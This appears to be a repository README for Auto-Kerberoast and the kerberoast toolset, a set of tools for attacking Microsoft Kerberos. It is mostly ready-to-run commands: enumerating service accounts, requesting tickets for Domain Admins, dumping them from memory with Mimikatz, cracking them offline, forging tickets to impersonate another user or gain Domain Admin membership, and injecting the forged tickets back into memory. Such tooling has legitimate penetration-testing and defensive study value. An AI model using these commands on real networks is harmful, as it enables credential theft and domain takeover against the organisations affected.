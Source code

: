 Auto-Kerberoast
==========

Auto-Kerberoast is my implementation of automating the original kerberoast scripts.  This implementation avoids droping files to disk and provides the option to request only tickets associated with users of interest (e.g. Domain Admins).

Instructions:

Import autokerberoast.ps1 into powershell in the context of any domain user.

To list ALL user-based SPNs, run:
```
List-UserSPNs
```
To list user SPNs that involve users in a particular group (e.g. Domain Admins), run:
```
List-UserSPNs -GroupName "Domain Admins"
```
To list user SPNs from a particular domain (e.g. dev.testlab.local), run:
```
List-UserSPNs -Domain "dev.testlab.local"
```
When ready to obtain tickets for users in a group or domain of interest, run:
```
Invoke-AutoKerberoast -GroupName "Domain Admins" -Domain "dev.testlab.local"
```
To obtain ALL tickets associated with unique user SPNs in the forest, simply run:
```
Invoke-AutoKerberoast
```

Once desired tickets are obtained, convert into hashcat-compatible format by pasting output into text file and running
```
python autoKirbi2hashcat.py ./<TICKETS.txt>
```

To mask the username for each hash in the the hashcat file run:
```
python autoKirbi2hashcat.py ./<TICKETS.txt> MASK
```




kerberoast
==========

Kerberoast is a series of tools for attacking MS Kerberos implementations. Below is a brief overview of what each tool does.

Extract all accounts in use as SPN using built in MS tools
----------------------------------------------------------
```
PS C:\> setspn -T medin -Q */*
```

Request Ticket(s)
-----------------
One ticket:  
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"  
```

All the tickets
```
PS C:\> Add-Type -AssemblyName System.IdentityModel  
PS C:\> setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

Extract the acquired tickets from ram with Mimikatz
---------------------------------------------------
```
mimikatz # kerberos::list /export
```

Crack with rgsrepcrack
----------------------
```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

Rewrite
-------
Make user appear to be a different user  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -u 500  
```

Add user to another group (in this case Domain Admin)  
```
./kerberoast.py -p Password1 -r 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi -w sql.kirbi -g 512  
```
Inject back into RAM with Mimikatz
----------------------------------
```
kerberos::ptt sql.kirbi
```
